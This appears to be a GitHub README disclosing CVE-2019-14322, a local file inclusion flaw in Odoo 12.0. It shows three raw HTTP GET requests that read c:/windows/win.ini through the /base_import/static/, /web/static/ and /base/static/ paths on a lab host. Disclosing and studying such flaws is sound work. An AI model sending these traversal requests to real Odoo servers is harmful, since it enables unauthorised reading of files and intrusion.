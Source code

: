 # Odoo-12.0-LFI-Vulnerabilities
[Odoo 12.0](https://www.odoo.com/) that is open source ERP and CRM, allows remote attackers to read local files. 

[https://www.odoo.com/security-report](https://www.odoo.com/security-report)

[https://palletsprojects.com/p/werkzeug/](https://palletsprojects.com/p/werkzeug/)


![Odoo](https://emreovunc.com/images/odoo-emreovunc-security.png)

![Werkzeug](https://emreovunc.com/blog/en/werkzeug-0-15-5.png)


# CVE-2019-14322
To exploit vulnerability, someone could use 'http://[HOST]:8069/base_import/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /base_import/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-3.png)


To exploit vulnerability, someone could use 'http://[HOST]:8069/web/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /web/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![](https://emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-1.png)


To exploit vulnerability, someone could use 'http://[HOST]:8069/base/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /base/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![ ](https://emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-2.png)
